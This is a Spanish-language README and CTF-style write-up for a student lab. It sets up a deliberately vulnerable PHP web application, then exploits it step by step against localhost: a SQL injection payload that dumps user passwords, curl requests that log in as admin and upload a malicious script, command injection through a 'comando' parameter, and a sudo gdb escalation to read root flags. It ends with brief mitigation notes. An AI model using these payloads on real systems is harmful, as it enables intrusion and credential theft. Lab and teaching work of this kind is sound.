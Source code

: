 Este proyecto ha acabado con mi salud mental
descargar zip y 
poner los archivos en home de user1
abrir una terminal
HACER:
chmod +x setup_OVA.sh
./setup_OVA.sh

chmod +x automatizado.sh
./automatizado.sh


Aquí tienes el write-up actualizado con detalles sobre la configuración inicial del entorno y el proceso de explotación:

---

## **Write-up: Explotación de Sistema Vulnerable con RCE y Elevación de Privilegios usando GDB**

### **Descripción del Sistema**
Este sistema web vulnerable, desarrollado en PHP, tiene un fallo de seguridad que permite la ejecución remota de código (RCE). El sistema utiliza Apache como servidor web y se ejecuta bajo el usuario `www-data`. Este fallo permite a un atacante con acceso a la aplicación web escalar privilegios y acceder a dos *flags* escondidas en:

1. **Flag de usuario**: `/home/www-data/user.txt`
2. **Flag de root**: `/root/root.txt`

El exploit aprovecha inyecciones SQL, subida de archivos maliciosos y escalación de privilegios usando **gtfobins** con `gdb`.

---

## **1. Configuración del Sistema Vulnerable**

### **Archivos Utilizados**
1. **`setup_ova.sh`**:
   Este script configura el entorno vulnerable, automatizando la instalación de software y la creación de vulnerabilidades necesarias para la explotación.

   #### **Proceso de Configuración Automatizada**
   El script realiza las siguientes acciones clave:
   - **Instalación de Apache y PHP**: Configura el servidor web Apache y el intérprete PHP, necesarios para ejecutar la aplicación web.
   - **Configuración de MySQL**:
     - Crea la base de datos `ssi`.
     - Añade múltiples tablas relacionadas con usuarios, administradores, imágenes y eventos.
     - Inserta datos predeterminados, incluyendo un administrador inicial con credenciales almacenadas directamente en la base de datos.
   - **Despliegue de la Aplicación**:
     - Extrae un archivo ZIP (`final.zip`) con los archivos web y los despliega en `/var/www/html/web`.
     - Configura permisos para asegurar que el servidor Apache (`www-data`) pueda leer y ejecutar los archivos.
   - **Configuración de GDB para Escalación de Privilegios**:
     - Ajusta los permisos de `gdb` mediante el archivo `sudoers`, permitiendo que el usuario `www-data` ejecute este binario como root sin contraseña.

   #### **Instrucciones de Uso**:
   Ejecutar el script como root:
   ```bash
   chmod +x setup_ova.sh
   ./setup_ova.sh
   ```

2. **`automatizado.sh`**:
   Este script automatiza el proceso de explotación, realizando todos los pasos necesarios, desde la inyección SQL hasta la extracción de las *flags*. Diseñado para ahorrar tiempo, simplifica el ataque para evitar realizar comandos manuales.

   #### **Acciones Automatizadas**
   - Realiza la inyección SQL para extraer credenciales.
   - Se autentica automáticamente como administrador en el sistema.
   - Sube el archivo malicioso `gdb.sh` al servidor.
   - Ejecuta comandos en el servidor remoto para explotar la vulnerabilidad RCE.
   - Escala privilegios con `gdb` y lee las *flags*.

   #### **Instrucciones de Uso**:
   Ejecutar el script directamente:
   ```bash
   chmod +x automatizado.sh
   ./automatizado.sh
   ```

   Durante la ejecución, el script muestra las acciones realizadas y los resultados, incluyendo el contenido de las *flags*.

---

## **2. Explotación**

### **Paso 1: Inyección SQL**
La vulnerabilidad en `rover_id` permite inyección SQL para extraer credenciales. Por ejemplo:
```bash
http://localhost/web/final/ulio-html/listadoFotosRovers.php?rover_id=' UNION SELECT 1, 2, contrasena, gmail, 5 FROM final_usuarios--
```

#### **Objetivo**:
Extraer las credenciales del administrador, incluyendo:
- **Correo electrónico (`gmail`)**: Para el login.
- **Contraseña (`contrasena`)**: En texto plano.

#### **Automatización**:
El script `automatizado.sh` realiza esta extracción utilizando `curl` y formatea la salida con `jq`.

---

### **Paso 2: Acceso como Administrador**
Con las credenciales obtenidas, autenticarse en el sistema:
```bash
curl -X POST \
     -d "email=admin@gmail.com" \
     -d "contrasena=admin123" \
     -d "es_administrador=on" \
     -c cookies.txt \
     "http://localhost/web/final/dashmin/login.php"
```

Esto almacena las cookies de sesión en `cookies.txt`, lo que permite acciones autenticadas.

---

### **Paso 3: Subida de Archivo Malicioso**
Como administrador, la funcionalidad de subida de imágenes permite cargar un script malicioso (`gdb.sh`):
```bash
curl -X POST \
     -F "profile_picture=@gdb.sh" \
     "http://localhost/web/final/dashmin/upload.php"
```

El archivo se guarda en el directorio `uploads/` del servidor.

---

### **Paso 4: Ejecución del Script Malicioso**
Usando otra vulnerabilidad en el servidor (RCE), ejecutamos `gdb.sh`:
```bash
curl -s -b cookies.txt \
"http://localhost/web/final/dashmin/list_uploads.php?comando=chmod%20744%20uploads/gdb.sh;./uploads/gdb.sh"
```

Este comando:
1. Cambia permisos del script a ejecutables.
2. Lo ejecuta, escalando privilegios a root.

---

### **Paso 5: Captura de las Flags**
1. **Flag de Usuario**:
   El script accede al archivo `/home/www-data/user.txt`:
   ```bash
   curl -s -b cookies.txt \
   "http://localhost/web/final/dashmin/list_uploads.php?comando=cat%20/home/www-data/user.txt"
   ```

2. **Flag de Root**:
   Con `gdb`, se lee `/root/root.txt`:
   ```bash
   ./uploads/gdb.sh
   ```

El contenido de ambas *flags* se muestra en la salida.

---

## **3. Mitigación**

### **Vulnerabilidades Identificadas**
1. **Inyección SQL**:
   - El parámetro `rover_id` no sanitiza entradas.
2. **Subida de Archivos Maliciosos**:
   - No hay validación de extensiones ni restricciones de tipo MIME.
3. **Escalación de Privilegios**:
   - El binario `gdb` tiene permisos inseguros en el archivo `sudoers`.

---

## **Conclusión**
Este escenario ilustra cómo una serie de vulnerabilidades, combinadas, pueden comprometer un sistema web. Desde inyección SQL hasta escalación de privilegios, es fundamental identificar y mitigar estos riesgos para proteger aplicaciones web contra ataques avanzados.
